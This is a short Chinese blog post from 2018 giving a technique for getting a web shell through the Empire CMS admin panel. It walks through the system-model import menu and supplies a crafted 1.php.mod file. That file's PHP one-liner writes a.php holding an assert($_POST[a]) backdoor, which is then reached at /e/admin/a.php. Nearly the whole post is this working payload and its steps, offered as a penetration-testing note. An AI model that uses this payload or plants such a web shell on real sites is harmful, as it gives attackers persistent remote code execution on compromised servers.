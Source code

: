 ```yaml
---
title: "帝国 cms 后台 getshell"
date: 2018-04-12T00:00:00+08:00
draft: false
tags: ["cms"]
categories: ["web"]
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


帝国 cms 后台 getshell

<!--more-->

系统- 数据库与系统模型 - 管理数据表 - 管理系统模型

![20220701151939](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220701151939.png)

本地新建 1.php.mod 内容

`<?fputs(fopen("a.php","w"),"<?php assert(\$_POST[a]);?>")?>`

导入系统模型 - 选择文件 - 马上导入

![20220701152006](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220701152006.png)

访问 /e/admin/a.php

![20220701152042](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220701152042.png)

